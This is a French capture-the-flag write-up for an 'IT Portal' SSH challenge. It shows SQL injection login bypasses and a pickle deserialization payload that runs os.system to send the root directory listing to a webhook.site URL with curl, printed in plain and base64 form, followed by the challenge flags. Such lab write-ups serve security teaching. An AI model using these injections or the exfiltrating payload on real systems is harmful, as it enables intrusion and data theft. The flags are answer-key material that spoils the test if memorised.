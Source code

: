 # IT Portal
## Write-up

### Intrusion 🕵️
Pour cette première partie de la track, nous avons accès au code source d'un serveur SSH fait avec [Paramiko](https://www.paramiko.org/), une librarie Python qui implémente SSHv2.

Il y a beaucoup de code, mais tout ce qui nous intéresse pour le moment c'est la fonction `ITPortal#check_auth_password`.

```python
def check_auth_password(self, username: str, password: str) -> int:
    con = sqlite3.connect(DB)
    c = con.cursor()

    user = c.execute(
        f'SELECT user_id from users where username LIKE "{username}"'
    ).fetchone()
    if user is None:
        return AUTH_FAILED

    auth = c.execute(
        f'SELECT user_id from users where username == "{username}" and password == "{password}"'
    ).fetchone()
    if auth is not None:
        return AUTH_SUCCESSFUL
    return AUTH_FAILED
```

Pour tous ceux qui ont des connaissances de sécurité de base, une alerte devrait se déclencher 🚨! On a deux injections SQL avec le nom d'utilisateur et le mot de passe.

On pourrait réussir à se connecter avec une seule injection comme `" or 1=1--` dans le nom d'utilisateur, mais la commande `ssh` ne supporte pas ce genre de nom d'utilisateur (bien que c'est possible de le faire avec une librarie comme Paramiko).

Si on veut garder une solution purement en ligne de commande, on peut utiliser `%` dans le nom d'utilisateur (qui retournera tout les utilisateurs grâce au `LIKE`) et une injection standard comme `" or 1=1--` dans le mot de passe.

```sh
$ ssh -l '%' -p 2020 <ip>
# mot de passe: " or 1=1--

[ flag-aa2181b8db80934befc12a9faf688b ]
-----------------------
|| IT SUPPORT PORTAL ||
-----------------------
|  1 - Create Ticket  |
|  2 - Check Ticket   |
|  x - Exit           |
-----------------------
>
```

### Compromission 🐚
Pour ce deuxième niveau, nous souhaitons obtenir de l'exécution de code arbitraire.

Dans la fonction `check_tickets`, on voit un candidat classique pour de l'exécution de code, soit `pickle.loads`.

```python
def check_tickets(project: str) -> str|None:
    con = sqlite3.connect(DB)
    c = con.cursor()
    body = ""
    try: 
        tickets  = c.execute("SELECT ticket from tickets where project = (?)", 
                           (project,)).fetchall()
        if len(tickets) == 0:
            return None
        for ticket in tickets:
            if ticket is None:
                continue
            t =  pickle.loads(base64.b64decode(ticket[0]))      # !!! c'est pas bien ça...
            line = f"|   {t.subject} :: {t.status}\r\n"
            body += line
        return body
    except Exception as e:
        print("[!] Err: ", e)
    finally:
        c.close()
        con.close()
```

`pickle` est un module Python inclu dans la librarie standard qui permet de sérialiser des objets Python. Ça peut être très utile, mais puisque ça permet de sérialiser et déserialiser des objets Python, il est possible de faire d'exécuter du code avec la méthode `__reduce__` (voir la [documentation concernée](https://docs.python.org/3/library/pickle.html#object.__reduce__)).

Par exemple, voici un exemple d'exécution de code simple avec `pickle`. Cet exemple imprime `Salut!!!`.

```python
import pickle

class Magic:
    def __reduce__(self):
        return print, ('Salut!!!',)

serialized = pickle.dumps(Magic())
pickle.loads(serialized)
```

Maintenant que nous avons trouvé notre cible, il faut trouver comment se rendre là. Heureusement, on n'a pas à chercher loin. Voici la fonction `create_ticket`:

```python
def create_ticket(project: str, subject: str, desc: str):
    con = sqlite3.connect(DB)
    c = con.cursor()
    try: 
        t = Ticket(subject, desc)
        t_blob = base64.b64encode(pickle.dumps(t)).decode()
        c.execute(f'INSERT INTO tickets (project, ticket) VALUES ("{project}", "{t_blob}")')
        con.commit()
    finally:
        c.close()
        con.close()
```

Comme on peut le voir, il y a une injection SQL possible (encore). Si on envoie un nom de projet comme `abc", "blah blah")--`, on peut injecter `blah blah` comme ticket sérialisé. Au moment de la lecture des tickets, celui-ci sera décodé de base64 et désérialisé avec `pickle.loads`.

Notre chemin d'attaque va donc comme-ci:

1. Concocter un object Python avec une fonction `__reduce__` malicieuse.
2. Encoder le résultat de `pickle.dumps(notre_objet)` en base64.
3. Créer un ticket avec comme nom de projet, `foo", "<base64 de pickle>")--`.
4. Lire les tickets du projet `foo`.
5. Profit!

La description du défi nous indique que le flag est la racine du système. On peut donc utiliser cet objet Python sérialisé:

```python
import pickle
import os
import base64

class Magic:
    def __reduce__(self):
        return os.system, ('ls / | curl --data-binary @- https://webhook.site/9d7c1100-fc41-4fff-bd29-a61a47096440',)

serialized = pickle.dumps(Magic())
serialized_b64 = base64.b64encode(serialized)
print(serialized_b64.decode())

# gASVcQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFZscyAvIHwgY3VybCAtLWRhdGEtYmluYXJ5IEAtIGh0dHBzOi8vd2ViaG9vay5zaXRlLzlkN2MxMTAwLWZjNDEtNGZmZi1iZDI5LWE2MWE0NzA5NjQ0MJSFlFKULg==
```

Si on suit le plan d'attaque décrit plus haut, nous obtenons les contenus à la racine dans notre webhook et nous obtenons notre flag! (`flag-813aad04a59b715ffcd9abc1d76f3c`)

![alt text](image.png)

## Flags
`flag-aa2181b8db80934befc12a9faf688b` et `flag-813aad04a59b715ffcd9abc1d76f3c`